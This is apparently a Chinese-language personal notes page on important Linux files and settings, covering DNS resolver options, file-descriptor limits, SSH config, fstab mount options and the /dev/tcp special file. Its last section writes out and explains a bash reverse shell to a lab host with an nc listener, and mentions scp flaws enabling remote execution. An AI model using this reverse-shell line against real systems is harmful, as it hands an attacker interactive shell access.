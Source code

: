 

Linux 的配置文件按道理应全部放到 /etc 目录。但是这里也记录一些 Linux 中的关键文件

## DNS 配置文件

`/etc/resolv.conf` 文件保存有 DNS 的配置。其内容如下：

- nameserver表示解析域名时使用该地址指定的主机为域名服务器。其中域名服务器是按照文件中出现的顺序来查询的,且只有当第一个nameserver没有反应时才查询下面的nameserver。

- domain　　　声明主机的域名。很多程序用到它，如邮件系统；当为没有域名的主机进行DNS查询时，也要用到。如果没有域名，主机名将被使用，删除所有在第一个点( .)前面的内容。

- search　　　它的多个参数指明域名查询顺序。当要查询没有域名的主机，主机将在由search声明的域中分别查找。domain和search不能共存；如果同时存在，后面出现的将会被使用。

- sortlist　　允许将得到域名结果进行特定的排序。它的参数为网络/掩码对，允许任意的排列顺序。

## 初始化配置文件

`/etc/rc.local` 这个文件用于开启启动一些服务，也可以添加一些 mount 挂载命令，在开启启动时进行挂载。



## 网络命名空间目录

`/var/run/netns/` 中



## 调整文件描述符数量

因为 Linux 系统为每个 TCP 建立连接时，都要创建一个 socket 句柄，每个 socket 句柄同时也是一个文件句柄。而系统对用户打开的文件句柄是有限制的，看到这里，也就理解了为什么在高并发时会出现 "too many open files"。

显示当前文件描述符数量：

```
ulimit -n
```

在 `/etc/security/limits.conf` 最后添加如下四行调整最大文件描述符和最大进程数量：

```
* soft nproc  65535
* hard nproc  65535
* soft nofile 65535
* hard nofile 65535
```

重启当前命令行生效

> 注意
> soft nofile （软限制）是指Linux在当前系统能够承受的范围内进一步限制用户同时打开的文件数
> hard nofile （硬限制）是根据系统硬件资源状况(主要是系统内存)计算出来的系统最多可同时打开的文件数量
> 通常软限制小于或等于硬限制。
> `*` 表示所有用户，也可以指定具体的用户名
> 所有进程打开的文件描述符数不能超过 /proc/sys/fs/file-max
> 单个进程打开的文件描述符数不能超过user limit中nofile的soft limit
> nofile的hard limit不能超过/proc/sys/fs/nr_open

上面的修改只是对用户的单一进程允许打开的最大文件数进行的设置。但是Linux系统对所有用户打开文件数也有限制（硬限制），一般情况下，不用修改此值。

```Bash
# 查看所有用户打开文件数的最大限制（此值与硬件配置有关）
cat /proc/sys/fs/file-max
```

但是，文件数再大，随着并发量的上升，也总有用完的时候。这时候再看 “文件都可以用「打开(open) –> 读写(write/read) –> 关闭(close)」模式来进行操作”这句话，就会想到，可以把已经用过的文件句柄释放掉，来减少资源的占用，这就又涉及到了资源重新利用和回收的问题。有时候查看端口有特别多的 `TIME_WAIT` 时，就是因为连接本身是关闭的，但资源还没有释放。

## 命令行终端提示符

常用的命令行标识符为：

```bash
export PS1='[\u@\h \W]\$ '
```



## CA 证书目录

`/etc/pki/ca-trust/source/anchors/`

把CA证书放到这个目录之后，执行 `update-ca-trust` 更新证书。



## SSH 默认配置

ssh 连接设置默认端口配置文件：

```
$ cat ～/.ssh/config 
Host node46
    Hostname node46
    User root
    Port 22222
Host node47
    Hostname node47
    User root
    Port 22222
Host node49
    Hostname node49
    User root
    Port 22222
```



## 磁盘挂载配置文件

磁盘挂载的配置文件是 `/etc/fstab`，注意这个文件是用于开机自动挂载的，如果开机时找不到挂载的磁盘，就会造成开机失败，需要先进入安全模式改这个文件再开机，所以临时挂载的磁盘不要房到这个目录。

下面是一个配置示例：

```
UUID=c5e73700-97ac-484d-82bf-2c9e670bc4ab /data1  xfs   defaults,noatime,nodiratime        0 0
UUID=6ae6bbb3-392f-4a1b-8f2c-baa4e753ec67 /data2  xfs   defaults,noatime,nodiratime        0 0
```

这里最好写 UUID 可以唯一识别一个磁盘的文件系统。

#### noatime,nodiratime

在 Linux 中，有以下几种时间：

| 简名  | 全名        | 中文名   | 含义                                     |
| ----- | ----------- | -------- | ---------------------------------------- |
| atime | access time | 访问时间 | 文件中的数据库最后被访问的时间           |
| mtime | modify time | 修改时间 | 文件内容被修改的最后时间                 |
| ctime | change time | 变化时间 | 文件的元数据发生变化。比如权限，所有者等 |

其中，atime 会经常变化，为了提高文件系统IO性能，会在挂载文件系统的时候指定“noatime,nodiratime”参数，意味着当访问一个文件和目录的时候，access time都不会更新。

通过以下命令可以查看文件的各种时间：

```bash
$ stat test.txt
```

#### 转储频率

    0：从不备份
    1：每日备份
    2：每隔一天备份


#### 自检次序：

```
0: 不自检
1：首先自检，通常只能被/使用；
2：等数字为1的自检完成后，再进行自检
```





## /dev/tcp

Linux中的一个特殊文件： /dev/tcp  打开这个文件就类似于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。

实验，在一台机器上(10.100.3.1)启动一个 TCP 端口：

```bash
$ nc -lvvp 7777
```

- -l, --listen               监听 TCP
- -v, --verbose              设置详细级别（可多次使用）
- -p, --source-port port     指定使用的端口

在另一台机器(10.100.3.2)上执行：

```bash
$ echo "hello" > /dev/tcp/10.100.3.1/7777
```

就会往这个 TCP 端口中写入数据，写完后就会退出。



#### 远程执行

这里有个巧妙的利用： [漏洞实验.md](OpenSSL/漏洞实验.md) 

```bash
$ bash -i >& /dev/tcp/10.100.3.1/7777 0>&1
```

`bash -i` 是启动一个新的命令行，`bash -i >&` 是将输入和输出重定向到 TCP 连接，`0>&1` 将标准输入和标准输出重定向到一个地方，即 TCP 连接中，这样就实现了类似远程执行的功能。

这种是需要两端配合来远程执行，但是通过 scp 的漏洞可以实现在一方操作之后就可以远程执行。

> 关于重定向：https://www.runoob.com/linux/linux-shell-io-redirections.html
>
> `n >& m`  将输出文件 m 和 n 合并。
>
> 需要注意的是文件描述符 0 通常是标准输入（STDIN），1 是标准输出（STDOUT），2 是标准错误输出（STDERR）。

















